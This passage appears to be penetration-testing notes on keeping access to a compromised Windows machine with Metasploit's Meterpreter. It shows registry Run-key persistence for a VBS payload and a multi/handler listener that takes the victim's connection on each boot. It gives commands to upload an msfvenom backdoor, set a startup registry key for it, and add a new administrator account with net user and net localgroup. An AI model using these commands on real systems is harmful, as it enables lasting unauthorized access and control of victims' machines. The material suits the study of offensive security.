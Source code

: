 output will show: 
Key: HKLM\Software\Microsoft\Windows\CurrentVersion\Run
Name: nZVDeQbFvEi
Type: REG_SZ
Data: C:\Windows\TEMP\flKiuvjydy.vbs

//this should show our payload file
meterpreter > ls c:\\Windows\\TEMP\\fl*


Once the process is complete, if we want to get a session on the target machine, we have to start
the listener and wait for incoming connections. We can do it by using the /multi/handler module

Notice that we have to set the same options set with persistence: same payload, IP address and 
local port


In this way, each time you need a meterpreter session on the target machine, you only need to start
the handler and wait for the victim to connect back

Since we edited the Windows Registry to start the script at the system boot, we will be able to 
create the session each time the machine is booted

# Manual Installation 

Suppose we crafted our own backdoor with msfvenom  or any other tool such as Veil or BDF. Here are
the command to upload, and edit the registry Keys on your target machine with meterpreter: 


1. Upload the file to the victim machine: 

upload [path_to_backdoor_file] [path_on_target]

//the above command should look like something like this
upload /root/my_bd.exe c:\\Windows\


2. Edit the Windows Registry Key with the "reg" command, in order to load your file at startup:

reg setval -k [registry_key_path] -d [value_of_the_key] -v [name_of_the_key]

in our case, it would be as follows: 

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\mybd.exe" -v be_name



# New Users

Now that we know how to upload a backdoor, the last technique left to see is the creation of a new 
user

An easy way to do this is by running the "net user" and "net localgroup" commands: 

C:\Windows\system32>net user EveUser EvePass /add

C:\Windows\system32>net localgroup "Administrators" EveUser /add

